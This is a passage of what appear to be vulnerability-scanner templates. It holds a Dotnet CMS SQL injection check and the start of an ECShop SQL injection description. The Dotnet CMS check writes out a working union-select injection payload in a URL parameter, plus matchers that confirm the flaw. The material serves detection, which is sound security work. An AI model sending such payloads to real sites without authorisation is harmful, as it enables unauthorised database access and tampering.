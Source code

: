 **Type - word**

- part - body
- words
  1. login-form
- negative - True

---

# Dotnet CMS - SQL Injection

## Description

- Dotnet CMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - dotnetcms,dotnet,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/user/City_ajax.aspx?CityId=33'union%20select%20sys.fn_sqlvarbasetostr(HashBytes('MD5','{{randstr}}')),2--

### Matchers

**Type - word**

- part - body
- words
  1. {{md5("{{randstr}}")}}

**Type - status**

- status
  1. 200

---

# ECShop 2.x/3.x - SQL Injection

## Description

- ECShop 2.x and 3.x contains a SQL injection vulnerability which can allow an attacker to inject arbitrary SQL statements via the referer header field and the dangerous eval function, thus possibly allowing an attacker to obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
